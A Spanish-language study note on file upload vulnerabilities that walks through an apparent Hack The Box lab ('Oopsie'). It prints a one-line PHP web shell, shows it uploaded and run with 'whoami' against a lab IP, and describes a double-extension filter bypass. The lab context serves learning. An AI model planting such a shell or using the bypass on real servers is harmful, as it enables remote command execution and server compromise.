 Es una vulnerabilidad que permite a un atacante **subir archivos maliciosos** a un servidor sin restricciones adecuadas.  Puede usarse para ejecutar comandos, obtener shells o comprometer completamente el sistema.  
Sucede cuando la aplicación no valida correctamente el **tipo, nombre o contenido** del archivo subido.


# Ejemplo

Desde la parte de uploads, vamos a cargar un [[archivo php inyección comandos]]
![[Oopsie12.png]]


`test.php`
```
<?php system($_GET["cmd"]); ?>
```

Lo subimos con este contenido, en uno de nuestros primeros intentos de enumerar, habiamos visto que existe el directorio uploads
![[Oopsie11.png]]

Entonces desde el directorio uploads vamos a intentar inyectar comandos con la utilidad que subimos
http://10.129.207.226/uploads/test.php?cmd=whoami
![[Oopsie13.png]]
Nos responde www-data asi que funciona correctamente

-------
# Archivos con doble extension

Si tenemos una pagina que solo acepta archivos con extension *.md* pero lee codigo *.php* podemos hacer un archivo *exploit.php.md* y de esta forma vamos a poder cargar el archivo a la pagina y se va a ejecutar su contenido *php*